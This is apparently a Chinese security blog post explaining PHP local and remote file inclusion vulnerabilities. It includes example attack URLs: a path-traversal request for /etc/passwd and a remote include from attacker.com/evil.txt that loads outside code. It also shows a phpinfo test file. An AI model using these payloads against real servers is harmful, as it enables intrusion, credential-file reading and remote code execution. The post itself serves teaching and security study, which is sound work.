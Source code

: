 ```yaml
---
title: File Inclusion Summary
author: Loong716
date: 2019-11-03 14:10:00 +0800
categories: [Web]
tags: [File_Inclusion]
---
```


**文件包含(File Inclusion)**顾名思义就是让代码去包含一个文件，其实就是在编写代码时“引用”其他文件的代码。以PHP为例，php的文件包含相关函数都是无论其参数的扩展名是什么，都会将其内容作为php代码解析，这可能就会造成任意的php代码执行。

如果一个功能需要包含用户传来的参数时，且开发者又没有对用户的输入进行检测和过滤，那么就很可能使攻击者利用该功能进行文件包含漏洞的攻击。

* toc
{:toc}

## 0x00 LFI与RFI

文件包含漏洞又可以分为**本地文件包含(Local File Inclusion)**和**远程文件包含(Remote File Inclusion)**

本地文件包含就是对服务器本地的文件进行包含，比如：

`http://example.com/include.php?file=../../../../../etc/passwd`

![Alt text](http://tva1.sinaimg.cn/large/007X8olVly1g8l5rtwbksj30pn09v75r.jpg)

这样就可以造成任意文件的读取、敏感信息泄露，甚至可以配合文件上传getshell

远程文件包含就是可以包含远程服务器的文件，条件是需要php.ini的配置：

``` htmlbars
allow_url_fopen = On (默认为On)
allow_url_include = On  (php5.2之后默认为Off)

PS:因为allow_url_include = On的前提是allow_url_fopen = On，所以必须两者都为On
```
远程文件包含的情况就是：

`http://example.com/include.php?file=http://attacker.com/evil.txt`

![Alt text](http://tva1.sinaimg.cn/large/007X8olVly1g8l5ru5qb1j30tt08a0tf.jpg)

个人觉得还要列一个我在php文档中看到的点：

> 处理返回值：在失败时 include 返回 FALSE 并且发出警告。成功的包含则返回 1，除非在包含文件中另外给出了返回值。可以在被包括的文件中使用 return 语句来终止该文件中程序的执行并返回调用它的脚本。同样也可以从被包含的文件中返回值。可以像普通函数一样获得 include 调用的返回值。不过这在包含远程文件时却不行，除非远程文件的输出具有合法的 PHP 开始和结束标记（如同任何本地文件一样）。可以在标记内定义所需的变量，该变量在文件被包含的位置之后就可用了。

对这个点感兴趣的可以测试一下远程文件包含时，在远程服务器上如果放上不同的PHP文件，再进行文件包含：

``` php
//phpinfo.php 这个回显的是phpinfo.php所在的远程服务器的phpinfo
<?php
phpinfo();
?>
```
